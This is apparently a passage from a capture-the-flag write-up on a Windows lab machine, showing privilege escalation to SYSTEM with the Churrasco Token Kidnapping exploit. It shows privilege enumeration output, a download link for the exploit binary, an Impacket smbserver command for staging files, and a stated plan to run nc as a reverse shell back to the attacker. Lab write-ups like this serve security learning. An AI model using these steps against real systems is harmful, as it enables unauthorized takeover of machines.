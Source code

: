 &nbsp;

# Privilege Escalation 
## Network Service -> SYSTEM

Launching the `systeminfo` command, we can see that the target machine has only one hotfix update installed, meaning that it is probably vulnerable to different exploits. Like in Granny, we can save that output and pass it to `Windows Exploit Suggester` to check for possible exploits. 

But we already know (from Granny) one working exploit that abuses the **Token Kidnapping**, technique which is an elevation of privilege vulnerability that could allow an attacker to go from authenticated user to *LocalSystem* privileges. An attacker can escalate their privileges on a system if they can control the *SeImpersonatePrivilege* token.  An attacker would need to be executing code in the context of a Windows service to use this exploit.

Let's first check the privileges related to our current shell:

```
C:\Documents and Settings>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

The `SeImpersontePrivilege` is enabled, meaning that we can perform the exploit. 


Here is the code-> <https://github.com/Re4son/Churrasco/raw/master/churrasco.exe>


In order to obtain a SYSTEM shell, we will first copy the binary exploit and the `nc.exe` executable to the target machine via a `smbserver`. Our goal is to launch the exploit code specifying as a command to execute the `nc` binary that will perform a call towards our machine:


```
$ sudo python3 /opt/impacket/examples/smbserver.py exploit .
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
